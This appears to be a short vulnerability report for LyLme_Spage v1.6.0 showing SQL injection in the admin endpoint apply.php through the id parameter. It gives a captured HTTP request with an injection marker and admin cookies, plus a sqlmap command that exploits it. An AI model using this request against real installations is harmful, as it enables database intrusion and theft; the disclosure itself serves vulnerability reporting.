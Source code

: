 # LyLme_Spage_2
https://gitee.com/lylme/lylme_spage/tree/v1.6.0


首先在http://ip/apply/下发起一个申请
Start by making an application at http://ip/apply/

![image](https://github.com/user-attachments/assets/247ddda6-d426-47ae-9d1f-60725ccd6b3e)

后台点击收录管理的编辑功能
Background click included management editing function
![image](https://github.com/user-attachments/assets/cba8704f-7f66-462f-a570-bb3a7f7f7f72)

GET /admin/apply.php?set=edit&id=* HTTP/1.1
Host: 127.0.0.1:9998
sec-ch-ua: "Not=A?Brand";v="99", "Chromium";v="118"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9998/admin/apply.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: admin_token=90d7M%2F3WDbztaftquNBfPRbNjPw3LxjDKcUaDvO7bEYpzHRRwwPyLNeT0td94g7p9w%2FXL0yfP9yV79VFuXdofmtlOg; BRPcM_admin_username=6876tBBUp5geSxCQN5sA1iKcxHKWIYz21qWkazG8S7yeLg; BRPcM_siteid=d932okj60sk0B9TkqM1wpAl87Z7cVJGoQaDRLspG; BRPcM_userid=f73dmCvThxA-y9q6p7E4mTCO1Yu7GN2Md5i5VRay; BRPcM_admin_email=d4adXnvKveOWi9fo2VEdwAuaB8F34r9gqTCJ-An7Vr_H5Pge; BRPcM_sys_lang=95b7Z8OobH3UEBHG6reEsIAHxg3si_OotB0pwqWUH0FmZg; JSESSIONID=ZCgZNzqIkXhtv3WhzYFl5fjxcB9DdC4id5mxh0O1; PHPSESSID=qkk1eisjp2p17ce7tll9tfq6vb; admin_token=c5f7pAlNpu4s4xQllufPvMzOK6dR6J2Z0TkaFIgtOFzg1VKSltZq614l0Nc7mTL2SmmcluK6%2FUhwXZFDZ4UROQNqGg
Connection: close

python sqlmap.py -r D:\TestData\sql6.txt --dbms mysql
![image](https://github.com/user-attachments/assets/c74bd6a2-aeb0-4f1a-8b0b-313db05965e0)


